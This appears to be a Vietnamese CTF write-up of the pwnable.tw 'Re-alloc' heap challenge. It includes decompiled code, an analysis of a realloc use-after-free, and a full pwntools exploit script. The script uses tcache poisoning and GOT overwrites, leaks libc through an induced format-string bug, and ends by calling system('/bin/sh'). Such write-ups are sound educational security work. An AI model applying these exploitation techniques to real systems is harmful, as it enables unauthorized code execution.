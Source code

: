 ```yaml
---
title:  "Pwnable.tw - Re-alloc"
date:   2025-03-25 10:00:00 +0700
header:
  teaser: "/assets/images/2025-03-25-pwntw-realloc/Screenshot 2025-03-25 172442.png"
tags:
  - pwnable.tw
  - elf
  - heap
  - use-after-free
  - tcache-poisoning
  - realloc
---
```


![Challenge description](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-25%20172442.png){:class="img-responsive"}

## Phân tích
### Tổng quan
Challenge cho ta một elf binary cùng với libc phiên bản 2.29. RELRO và PIE tắt.  
![Checksec](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120846.png){:class="img-responsive"}  
Chương trình có 4 chức năng:  
1, Alloc 1 chunk có index, size và data được user chỉ định. Giá trị size phải nhỏ hơn 0x78 (Vừa với tcache).

```cpp
int allocate()
{
  _BYTE *v0; 
  unsigned __int64 v2; 
  unsigned __int64 size; 
  void *v4; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    printf("Size:");
    size = read_long();

    // tcache limit
    if ( size <= 0x78 ) { 
      v4 = realloc(0LL, size);

      // alloc thành công
      if ( v4 ) { 
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```
2, Re-alloc 1 chunk đã được alloc trước đó với size và data mới.

```cpp
int reallocate() {
  unsigned __int64 v1; 
  unsigned __int64 size; 
  void *v3; 

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```
3, Free 1 chunk có index được user chỉ định. Sau khi free có đặt lại pointer về null nên sẽ không có lỗi ở đây.

```cpp
int rfree() {
  void *v0; 
  unsigned __int64 v2; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    realloc(*((void **)&heap + v2), 0LL);
    v0 = &heap;
    *((_QWORD *)&heap + v2) = 0LL;
  }
  return (int)v0;
}
```
4, Thoát chương trình.

Ngoài ra, chương trình chỉ cho phép 2 chunk tồn tại đồng thời (index là 0 hoặc 1), việc này được kiểm soát bởi global array **heap**.
### Hiểu về hàm realloc
Điều đáng chú ý ở challenge này là nó dùng hàm realloc để thực hiện cả 3 thao tác chính. Dựa theo [man page](https://man7.org/linux/man-pages/man3/realloc.3p.html) và [source code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/memusage.c#L379) của realloc:
1. realloc(NULL, size): giống như malloc.
2. realloc(ptr, size): dealloc (không phải free) chunk cũ và alloc 1 chunk mới với size mới với data giống với chunk cũ, độ dài của data phù hợp với chunk nhỏ hơn. Nếu size mới bằng size cũ thì realloc không làm gì cả.
3. realloc(ptr, 0): giống như free.

Dựa vào những điều trên, ta xác định được lỗi use-after-free ở chức năng thứ 2 của chương trình do không kiểm tra size được nhập bởi user.  
## Khai thác
Với hạn chế size của mọi chunk phải ở trong vùng tcache thì ý tưởng khai thác chính của ta sẽ là dùng kỹ thuật tcache-poisoning.  
Các bước khai thác:
1. Ghi đè got_atoll thành plt_printf (chọn atoll do ta có thể kiểm soát hoàn toàn tham số của nó).
2. Leak libc base bằng lỗi format-string vừa tạo ra.
3. Vẫn dùng lỗi format-string, ghi đè tất cả các giá trị trong mảng **heap** về null nhằm tránh lỗi khi alloc về sau.
4. Ghi đè got_atoll thành system, thao tác tương tự bước 1 (lưu ý printf trả về số kí tự được in thành công)
5. Lấy shell

Mã khai thác:  
```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./re-alloc_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("chall.pwnable.tw", 10106)

def debug_from_here():
    gdb.attach(con, gdbscript = '''
        b*main+0x6f
        b*main+0x7b
        b*main+0x87
    ''')
    input()

def alloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"1")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    con.sendlineafter(b"Data:", data)

def realloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"2")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    if (size != b"0" and size != b"\0"):
        con.sendlineafter(b"Data:", data)
    
def free(idx):
    con.sendlineafter(b"Your choice: ", b"3")
    con.sendlineafter(b"Index:", idx)

### Stage 1: overwrite got_atoll -> plt_printf
alloc(b"0", f"{0x10}", b"abcd0")                # heap[0] = p1
realloc(b"0", b"0", "")                         # heap[0] = p1; tcache[0x20] = [p1]
realloc(b"0", f"{0x10}", p64(elf.got['atoll'])) # heap[0] = p1; tcache[0x20] = [p1 -> atoll_got -> ...]
alloc(b"1", f"{0x10}", b"abcd1")                # heap[0] = p1, heap[1] = p1; tcache[0x20] = [atoll_got -> ...]

realloc(b"1", f"{0x20}", b"abcd1")              # heap[0] = p1, heap[1] = p2; tcache[0x20] = [atoll_got -> ...]
free(b'1')                                      # heap[0] = p1, heap[1] = 0; tcache[0x20] = [atoll_got -> ...], tcache[0x30] = [p2]
alloc(b"1", f"{0x10}", p64(elf.plt['printf']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x20] = [...], tcache[0x30] = [p2]

### Stage 2: leak libc base
free(b"%7$p")
libc.address = int(con.recvline().strip(b"\n"), 16) - 0x1e5760
log.success(hex(libc.address))

### Stage 3: clear heap array
free(b"%9$n".ljust(8) + p64(elf.sym['heap']))
free(b"%9$n".ljust(8) + p64(elf.sym['heap'] + 8))

### Stage 4: overwrite got_atoll -> system
alloc(b"\0", f"%{0x2f}c", b"abcd0")                  # heap[0] = p1
realloc(b"\0", b"\0", b"")                           # heap[0] = p1; tcache[0x40] = [p1]
realloc(b"\0", f"%{0x2f}c", p64(elf.got['atoll']))   # heap[0] = p1; tcache[0x40] = [p1 -> atoll_got -> ...]
alloc(b"1\0", f"%{0x2f}c", b"abcd1")                 # heap[0] = p1, heap[1] = p1; tcache[0x40] = [atoll_got -> ...]

realloc(b"1\0", f"%{0x3f}c", b"abcd1")               # heap[0] = p1, heap[1] = p2; tcache[0x40] = [atoll_got -> ...]
free(b'1\0')                                         # heap[0] = p1, heap[1] = 0; tcache[0x40] = [atoll_got -> ...], tcache[0x50] = [p2]
alloc(b"1\0", f"%{0x2f}c", p64(libc.sym['system']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x40] = [...], tcache[0x50] = [p2]

### Stage 5: get shell
free(b"/bin/sh")

con.interactive()

```
![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}
